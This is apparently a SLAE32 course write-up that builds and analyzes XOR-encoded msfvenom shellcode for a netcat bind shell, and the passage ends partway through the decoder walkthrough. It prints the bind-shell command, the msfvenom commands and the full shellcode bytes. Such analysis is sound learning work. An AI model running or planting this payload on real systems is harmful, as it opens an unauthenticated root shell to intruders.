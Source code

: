```yaml
---
title: SLAE32 Assignment 5 -- Analyzing MSF-Venom Dynamic XOR Encoded Exec Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Reverse
  - Netcat
  - metasploit
  - msfvenom
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
![](/pics/msfLogo.png)

For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.  
The first will be the payload:  
 `/linux/x86/exec`   
The command being executed will be:  
 `nc -nlp 4444 -e "/bin/sh" &`
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.  

Testing out the command:  
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.  
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.  
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.  

```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.  

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```

Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.

### Installing LibEmu  
I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```console
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```

### LibEmu Shellcode Analyzation
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```
![](/pics/execNC.png)

### Breaking Down the Flow Chart
At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.  
In the top most block, we can see that the shellcode is using the _Jump-Call-Pop_ technique.  

The first instruction `jmp 0x25`, jumps our Instruction Pointer `EIP` forward 25 bytes. 
+ This is a short jump. 
  - Short jumps use offsets instead of a hard-coded address. 
  - This allows the shellcode to work in the programs it is injected into.

The next instruction `call 0xffffffdd`, is a call instruction. 
+ This is similar to a jump instruction. 
  - Although before jumping, the instruction after the call instruction is pushed onto the stack. 
+ This allows the program to return to where it was, once it is done execution where it was called to. 
+ In our situation, the next instruction is actually the memory location to our string. 
  - Our string is our entire, XOR'd shellcode payload. 

The 3rd instruction `pop ebx`, _pop's_ the pointer to our payload off into the `EBX` Register.   

Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.  

We can see that the loop, outlined using the blue arrow, is a XOR decoder loop.  
+ The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`.   

After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`.   

The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b.   
+ If the compare instruction returns that the 2 words match, then the result will return a 0.  
+ The `cmp` instruction subtracts the two values and sets the Zero Flag if Zero.  

The instruction `jz 0xa` will jump `EIP` forward 10 bytes, if the last instruction returned zero.   
+ This insturction is "Jump if Zero", also know as "Jump if Equal".   

If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow).   
Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four.   
```
Decimal Incrementing:  0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
    
Hex Incrementing:      19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23
```
